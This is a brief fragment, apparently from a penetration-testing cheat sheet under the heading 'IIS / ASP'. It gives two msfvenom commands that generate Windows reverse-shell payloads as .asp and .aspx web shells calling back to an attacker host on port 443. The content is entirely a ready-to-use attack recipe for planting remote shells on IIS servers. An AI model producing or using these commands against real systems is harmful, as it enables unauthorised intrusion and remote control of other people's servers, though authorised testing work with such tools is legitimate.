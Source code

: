 # IIS / ASP

```text
msfvenom -p windows/shell_reverse_tcp LHOST=$ATTACKER LPORT=443 -f asp -o shell.asp
```

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ATTACKER LPORT=443 -f aspx -o shell.aspx
```

